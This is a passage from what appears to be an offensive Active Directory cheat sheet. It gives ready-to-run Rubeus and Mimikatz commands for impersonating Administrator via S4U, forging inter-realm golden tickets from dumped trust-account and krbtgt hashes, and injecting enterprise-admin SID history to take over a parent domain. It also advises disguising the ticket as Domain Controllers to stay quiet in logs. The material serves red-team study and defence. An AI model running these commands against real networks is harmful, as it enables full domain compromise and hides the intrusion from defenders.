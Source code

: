 ```powershell
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

### Abusing domain trust

All commands must be run with DA privileges in the current domain.

Note that if you completely compromise a child domain (`currentdomain.targetdomain.com`), you can *by definition* also compromise the parent domain (`targetdomain.com`) due to the implicit trust relationship. The same counts for any trust relationship where SID filtering is disabled (see ['Abusing inter-forest trust']({{<ref "#abusing-inter-forest-trust" >}}) below).

#### Using domain trust key

From the DC, dump the hash of the `currentdomain\targetdomain$` trust account using Mimikatz (e.g. with LSADump or DCSync). Then, using this trust key and the domain SIDs, forge an inter-realm TGT using Mimikatz, adding the SID for the target domain's enterprise admins group to our 'SID history'.

```plaintext
kerberos::golden /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:targetdomain.com /ticket:c:\users\public\ticket.kirbi
```

Pass this ticket with Rubeus.

```powershell
.\Rubeus.exe asktgs /ticket:c:\users\public\ticket.kirbi /service:LDAP/dc.targetdomain.com /dc:dc.targetdomain.com /ptt
```

We can now DCSync the target domain (see below).

#### Using krbtgt hash

From the DC, dump the krbtgt hash using e.g. DCSync or LSADump. Then, using this hash, forge an inter-realm TGT using Mimikatz, as with the previous method.

Doing this requires the SID of the current domain as the `/sid` parameter, and the SID of the target domain as part of the `/sids` parameter. You can grab these using PowerView's `Get-DomainSID`. Use a SID History (`/sids`) of `*-516` and `S-1-5-9` to disguise as the Domain Controllers group and Enterprise Domain Controllers respectively, to be less noisy in the logs.

```plaintext
kerberos::golden /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /user:DC$ /groups:516 /ptt
```

> If you are having issues creating this ticket, try adding the 'target' flag, e.g. `/target:targetdomain.com`.

Alternatively, generate a domain admin ticket with SID history of enterprise administrators group in the target domain.

```
kerberos::golden /user:Administrator /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /sids:S-1-5-21-280534878-1496970234-700767426-519 /ptt
```
